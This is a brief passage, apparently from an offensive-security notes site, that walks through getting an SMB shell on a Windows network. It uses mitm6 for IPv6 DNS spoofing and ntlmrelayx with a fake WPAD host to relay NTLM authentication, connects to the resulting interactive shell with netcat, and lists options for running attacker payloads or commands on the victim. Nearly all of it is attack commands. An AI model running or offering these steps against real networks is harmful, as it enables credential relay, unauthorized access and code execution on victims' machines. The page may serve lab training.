 ## <mark style="color:red;">Get an SMB Shell</mark>

```
python mitm6.py -d megacorp.local -i vboxnet0
```

#### we can add -i to get an smb shell if posible

```
ntlmrelayx.py -6 -t smb://192.168.56.115 -wh fakewpad.megacorp.local -l lootme  -i
```

![](<../../../.gitbook/assets/image (217).png>)

#### we can connect to the shell with netcat:

```
nc 127.0.0.1 11000
```

![](<../../../.gitbook/assets/image (222).png>)

#### now we are in the victims share directory

```
-e [payload.exe]  → to run a payload generated on attackers machine

-c [command] → execute the specified command
```

#### we can use this instead of ntlmrelayx and get a system level interactive shell:
